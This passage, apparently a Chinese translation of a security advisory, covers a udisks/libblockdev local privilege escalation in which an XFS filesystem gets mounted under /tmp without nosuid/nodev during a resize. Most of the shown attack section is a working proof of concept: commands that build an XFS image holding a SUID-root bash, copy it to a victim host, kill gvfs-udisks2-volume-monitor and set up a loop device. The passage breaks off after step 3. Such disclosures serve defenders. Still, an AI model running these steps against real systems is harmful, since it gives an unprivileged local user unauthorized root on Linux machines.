 - 再传递给 ntfs-3g 内部的 libfuse 并重新解析；  
  
- 最后传递给内核并重新解析。  
  
然而，在阅读 udisks 和 libblockdev 的代码时，我们发现了一个更简单的 LPE（本地提权漏洞）：自 2017 年以来，udisks 守护进程允许 "allow_active" 用户调整其文件系统的大小；在调整 XFS 文件系统大小时（通过默认安装在大多数 Linux 发行版上的 xfs_growfs 程序），udisks 守护进程会调用 libblockdev，后者会将该 XFS 文件系统临时挂载到 /tmp 目录下（如果尚未在其他位置挂载），但没有  
使用 nosuid 和 nodev 标志。  
  
因此，"allow_active" 攻击者可以简单地设置一个由任意 XFS 镜像（包含 SUID-root shell）支持的 loop 设备，然后请求 udisks 守护进程调整该 XFS 文件系统的大小（这会在 /tmp 目录下挂载该文件系统，没有  
使用 nosuid 和 nodev 标志），最后执行其 XFS 文件系统中的 SUID-root shell，从而获得完整的 root 权限。  
  
漏洞验证  
  
1/ 在我们的攻击机器上，以 root 身份创建一个包含 SUID-root shell 的 XFS 镜像，并将其复制到目标机器：  
```
attacker# dd if=/dev/zero of=./xfs.image bs=1M count=300

attacker# mkfs.xfs ./xfs.image

attacker# mkdir ./xfs.mount

attacker# mount -t xfs ./xfs.image ./xfs.mount

attacker# cp /bin/bash ./xfs.mount

attacker# chmod 04555 ./xfs.mount/bash

attacker# umount ./xfs.mount

attacker# scp -i id_ed25519 ./xfs.image nobody@victim:
```  
  
2/ 我们登录目标机器，并确保已认证为 "allow_active" 用户（如果尚未认证，可能需要先利用本公告中的另一个 LPE 漏洞，例如 CVE-2025-6018）：  
```
attacker# ssh -i id_ed25519 nobody@victim

victim> grep PRETTY_NAME= /etc/os-release
PRETTY_NAME="openSUSE Leap 15.6"

victim> id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method
org.freedesktop.login1.Manager.CanReboot
('yes',)
```  
  
3/ 我们设置一个由 XFS 镜像文件支持的 loop 设备，但首先确保 "gvfs-udisks2-volume-monitor" 没有以当前用户身份运行 （否则它会自动挂载我们的 XFS 文件系统，从而阻止 libblockdev 稍后自行挂载）：  
```
victim> killall -KILL gvfs-udisks2-volume-monitor

victim> udisksctl loop-setup --file ./xfs.image --no-user-interaction
Mapped file ./xfs.image as /dev/loop0.
```  
  